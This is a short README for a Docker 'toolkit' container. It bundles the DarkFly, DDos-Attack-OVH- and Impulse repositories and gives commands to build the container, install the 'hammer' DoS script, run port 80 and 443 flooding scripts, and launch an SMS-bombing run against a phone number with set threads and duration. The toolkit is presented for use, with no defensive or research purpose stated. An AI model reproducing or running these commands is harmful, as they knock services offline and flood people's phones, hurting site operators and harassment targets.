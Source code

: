 # Intro

toolbox container includes:

* https://github.com/Ranginang67/DarkFly-Tool
* https://github.com/HardyTomas/DDos-Attack-OVH-.git
* https://github.com/LimerBoy/Impulse.git

# Use

Build and login into container shell:

```shell
docker build -t toolkit -f containers/Dockerfile.toolkit .
docker run --rm --it toolkit
root@bda7c51682fb:/opt# 
```

from here several tools are at your disposal:

## DarkFly

https://telegra.ph/DDOS-sajta--DarkFly-08-11

just launch DarkFly console:

```shell
DarkFly
```

follow `1` then `16` to install `hammer` into `/root/hammer.py` 

## DDos-Attack-OVH-

https://github.com/HardyTomas/DDos-Attack-OVH-

```shell
cd DDos-Attack-OVH-
python3 80port.py
# or
python3 443port.py
```

##  LimerBoy / Impulse 

https://github.com/LimerBoy/Impulse

```shell
cd LimerBoy-Impulse
python3 impulse.py --method SMS --time 20 --threads 15 --target +380123456789
```